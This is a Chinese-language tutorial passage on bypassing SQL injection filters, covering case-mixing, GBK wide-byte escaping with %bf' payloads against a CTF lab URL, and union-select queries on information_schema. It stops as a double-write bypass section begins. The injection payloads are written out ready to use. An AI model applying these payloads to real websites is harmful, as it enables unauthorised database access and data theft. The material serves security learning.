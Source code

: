 #### 大小写绕过
本来是 1' and 1=1#返回错误
现在我们写1' And 1=1就可以注入了(ps.其他的相同Order  By ;Select)



#### 宽字节绕过

对一个CTF进行测试的时候发现`?id=1'`没有作用

当我们对网站进行抓包的时候。发现网站的响应中有一行。

```
Content-Type: text/html; charset=gb2312
```

> 此处可以看出，后端使用的是`gb2312`。也就是说是GBK系列编码。

使用GBK编码可能有一个问题。当使用的是GBK编码，而且后端对`'`进行解析是使用`\`进行转义的。

因为在GBK使用一字节和双字节编码。所以后端会把`'`转义为`\'`，而`\`的url编码是`%5c`。而`%bf%5c`又会被认为是一个宽字节的字符（也就说构建字节，使两个单字节组成一个宽字节）。通过这样`\`就会被转义掉。这样我们后面的`'`就不会被转义了。这样我们就打断了`''`的限制。



测试是否有宽字节绕过：

```
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=4%bf'
```

> 测试出`mysql`报错



这时就天高任鸟飞了

```
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=4%bf' union select 1,2,3%23	
```

> 此处最后面的是`#`的url编码格式



注意如果`'`全部都被过滤了的话后面使用`unoin select`查询的时候：

```
%bf' union select 1,2,(select column_name from information_schema.columns where table_name=0x74657374)										
```

> 此处由于`'`被转义，所以`'test'`也会被转义。此时`test`最好用十六进制转码：`0x74657374`









#### 双写绕过



在一些场景中后端会对特殊的单词进行过滤，检测到某单词，会把该单词替换为空字符。
